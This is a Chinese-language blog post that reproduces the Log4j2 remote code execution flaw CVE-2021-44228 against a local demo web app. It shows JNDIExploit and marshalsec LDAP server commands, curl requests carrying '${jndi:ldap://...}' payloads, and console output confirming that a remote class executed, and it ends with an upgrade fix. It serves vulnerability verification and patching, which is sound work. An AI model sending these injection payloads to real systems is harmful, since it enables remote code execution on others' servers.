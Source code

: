 ```yaml
---
layout: post
title: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
categories: Java
description: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
keywords: cve, log4j, log4j2, 漏洞
---
```


近期，大家都被这个**核弹级**漏洞搞疯了，各种紧急生产补丁的上，所以咱也来凑凑热闹

## 问题
这个漏洞到底有多严重？基本上看到`远程代码执行`，就是非常严重的漏洞，因为这代表攻击者，可以在被攻击者服务器上，执行任何想要的操作。

## 思考
怎么验证存在及修复了这个漏洞？

## 复现
### 基于JNDIExploit，搭建LDAP
- 参考：<https://github.com/Mr-xn/JNDIExploit-1>
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动

### 见证奇迹的时刻
- 请求
```curl -d 'val=${jndi:ldap://127.0.0.1:1389/SkTest211213Before}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log```
- JNDIExploit控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
```

## 解决
参考官方解决意见，升级版本到`2.15.0`，包括但不限于如下方式：
- SpringBoot项目
```xml
  <properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version><!-- add this property to fix CVE-2021-44228 -->
  </properties>
```

## 回顾
### 原理
- log4j2在打印`${xxx}`内容时，会当命令执行

### 远程代码执行
#### 将漏洞文件放于某Web服务器中
- 如：将 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228/src/main/resources/static/Log4j2Rce.class> 文件放于某Web服务器中
- 或启动 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228> 工程

#### 通过marshalsec，搭建LDAP
- 参考：<https://github.com/mbechler/marshalsec>
- 命令（根据需要替换Web服务器url）
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Log4j2Rce" 1389
```

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动（如上面已启动，则无需再启动）

#### 见证奇迹的时刻
- 请求：
```shell
curl -d 'val=${jndi:ldap://127.0.0.1:1389/Log4j2Rce}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log
```

- org.shaneking.demo.cve.y2021.s44228.web控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
2021-12-15 01:58:09.458  INFO 45940 --- [nio-8081-exec-2] o.s.w.s.DispatcherServlet                : Completed initialization in 16 ms
SkTest211213Before: will print when Log4j2Rce loaded in static.
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:09.795  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.332  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : RAW = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.351  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : FMT = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
```

## 附录
- 基于DREAD模型的漏洞等级计算：<https://www.secrss.com/articles/5566>
![](/images/posts/2021/12/db5608769f509557cb99ff7e464bd059.jpg)
- 安全漏洞如何评级：<https://www.zhihu.com/question/53669275>
![](/images/posts/2021/12/v2-de2ba8149eeac2cc442c1d3214f5f44f_1440w.jpg)
- 漏洞等级说明：<https://help.aliyun.com/document_detail/28388.html>
